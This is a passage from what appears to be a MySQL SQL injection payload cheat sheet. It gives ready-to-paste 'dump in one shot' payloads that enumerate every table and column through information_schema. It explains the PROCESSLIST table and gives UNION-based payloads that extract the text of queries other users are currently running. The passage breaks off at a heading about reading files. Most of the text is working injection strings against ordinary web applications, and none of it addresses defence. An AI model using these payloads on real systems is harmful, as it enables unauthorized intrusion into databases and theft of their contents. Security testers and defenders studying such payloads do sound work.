     ```sql
    +make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)
    ```

* sharik

    ```sql
    (select(@a)from(select(@a:=0x00),(select(@a)from(information_schema.columns)where(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=concat(@a,table_name,0x203a3a20,column_name,0x3c62723e))))a)
    ```

## MYSQL Current Queries

`INFORMATION_SCHEMA.PROCESSLIST` is a special table available in MySQL and MariaDB that provides information about active processes and threads within the database server. This table can list all operations that DB is performing at the moment.

The `PROCESSLIST` table contains several important columns, each providing details about the current processes. Common columns include:

* **ID** : The process identifier.
* **USER** : The MySQL user who is running the process.
* **HOST** : The host from which the process was initiated.
* **DB** : The database the process is currently accessing, if any.
* **COMMAND** : The type of command the process is executing (e.g., Query, Sleep).
* **TIME** : The time in seconds that the process has been running.
* **STATE** : The current state of the process.
* **INFO** : The text of the statement being executed, or NULL if no statement is being executed.

```sql
SELECT * FROM INFORMATION_SCHEMA.PROCESSLIST;
```

| ID  | USER      | HOST           | DB     | COMMAND | TIME | STATE      | INFO |
| --- | --------- | ---------------- | ------- | ------- | ---- | ---------- | ---- |
| 1   | root   | localhost        | testdb  | Query  | 10 | executing  | SELECT * FROM some_table |
| 2   | app_uset  | 192.168.0.101    | appdb   | Sleep  | 300 | sleeping  | NULL |
| 3   | gues_user | example.com:3360 | NULL    | Connect | 0    | connecting | NULL |

```sql
UNION SELECT 1,state,info,4 FROM INFORMATION_SCHEMA.PROCESSLIST #
```

Dump in one shot query to extract the whole content of the table.

```sql
UNION SELECT 1,(SELECT(@)FROM(SELECT(@:=0X00),(SELECT(@)FROM(information_schema.processlist)WHERE(@)IN(@:=CONCAT(@,0x3C62723E,state,0x3a,info))))a),3,4 #
```

## MYSQL Read Content of a File
